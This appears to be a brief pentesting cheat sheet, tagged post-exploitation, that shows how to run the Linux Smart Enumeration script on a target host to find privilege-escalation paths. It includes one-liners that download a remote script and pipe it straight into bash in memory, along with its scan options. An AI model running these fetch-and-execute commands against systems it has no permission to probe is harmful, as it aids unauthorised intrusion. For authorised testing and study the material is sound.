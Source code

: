 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - offensive-tools
  - linux
---
```

# Linux Smart Enumeration

Once you've executed the script it will ask for a password but as an attacker we are facing a black box target that we have no information. Press the Return key and it will perform the scan to look for high priority results. It will print with readable output colors to make it easier for us to find. Finally this script will run on older Linux systems and embedded devices as well

To execute script on memory.

```
$ bash <(wget -q -O - "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh") -l2 -i

$ bash <(curl -s "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh") -l1 -i
```

To drop the script on disk.

```
$ wget -O lse.sh "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh"; chmod 755 lse.sh

$ ./lse.sh
```

Skip for a password prompt.

```
$ ./lse.sh -i
```

Display not just only the important critical findings but other interesting things such as virtualized containers, networks, running processes, cron jobs, etc...

```
$ ./lse.sh -l 1
```

Show every results it could find and non-interactive mode

```
$ ./lse.sh -il 2
```

Select a few sections or tests to run of the following sections. I would enumerate every single Linux machine with just these options to make it quick.

```
$ ./lse.sh -is usr,sud,sys,ret,net,srv,pro
```

---
## References

- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)